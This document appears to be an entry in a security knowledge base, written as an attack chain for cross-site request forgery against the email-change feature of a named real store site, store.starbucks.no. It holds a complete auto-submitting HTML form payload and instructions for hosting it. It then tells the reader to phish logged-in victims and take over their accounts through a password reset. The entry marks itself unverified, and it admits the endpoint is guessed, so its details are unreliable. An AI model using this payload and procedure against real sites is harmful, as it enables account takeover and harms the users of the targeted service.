

---
tags:
  - csrf
  - web
  - account-takeover
  - email-change
type: attack_chain
tools: []
tactics:
  - '[[Credential Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-in-Email-Update-Endpoint]]'
step_count: 2
techniques:
  - '[[Account Manipulation]]'
updated_at: '2025-12-14T17:27:49.474Z'
description: >-
  A cross-site request forgery attack exploiting the lack of CSRF protection in
  the email change functionality, allowing an attacker to alter a victim's email
  address and potentially take over their account.
skill_level: intermediate
impact_level: high
id: 9ad23249-bb57-41a0-aec1-98510447ad18
validated: true
mitre_tactics:
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Account Manipulation]]'
---
# CSRF on Email Change Leading to Account Takeover on store.starbucks.no

Multi-stage attack chain demonstrating a complete attack workflow targeting the email change feature on store.starbucks.no.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for testing
- A web server to host the malicious page (e.g., local Python server)

### Target Environment

- Web platform
- Victim must be authenticated on store.starbucks.no
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Social engineering to lure victim to malicious page while logged in
- No prior credentials needed for attacker
- Network access to host the payload page

## Detailed Attack Procedures

### Step 1: Prepare Malicious Payload
procedure: [[procedures/Exploit-CSRF-in-Email-Update-Endpoint]]

**Objective**: Craft an HTML page that automatically submits a form to the vulnerable email change endpoint, altering the victim's email.

**Instructions**: Create an HTML file with a hidden form targeting the email update endpoint. Assume the endpoint is POST /account/email-change (inferred from typical implementations; verify via testing). Set the new email to attacker-controlled address.

Example payload (save as csrf-poc.html):

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" action="https://store.starbucks.no/account/email-change" method="POST">
    <input type="hidden" name="new_email" value="attacker@example.com">
    <input type="hidden" name="csrf_token" value=""> <!-- Omitted due to lack of protection -->
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Host this on a server accessible to the victim, e.g., using Python: `python -m http.server 8000`.

**Expected Output**: When loaded in victim's browser (while logged in), the form submits silently, changing the email.

**Success Indicators**:
- Victim's session cookie sent with the request
- Email change confirmed via victim account check

### Step 2: Deliver Payload and Trigger
procedure: [[procedures/Exploit-CSRF-in-Email-Update-Endpoint]]

**Objective**: Trick the victim into loading the malicious page while authenticated on the target site, triggering the unauthorized request.

**Instructions**: Use social engineering, such as phishing email or malicious link on a forum, directing the victim to http://attacker-server/csrf-poc.html. Ensure the victim is logged into store.starbucks.no beforehand.

Monitor for success by attempting to reset the victim's password using the new email or checking account details.

**Expected Output**: Victim's email updated to attacker's control; potential for password reset and takeover.

**Success Indicators**:
- Unauthorized email change occurs
- Attacker receives confirmation or can access via new email

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection to forge email change request
2. Enabled account takeover by controlling victim's email
3. Demonstrated impact on user account management without direct access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Manipulation]]

### MITRE ATT&CK Tactics

- [[Credential Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
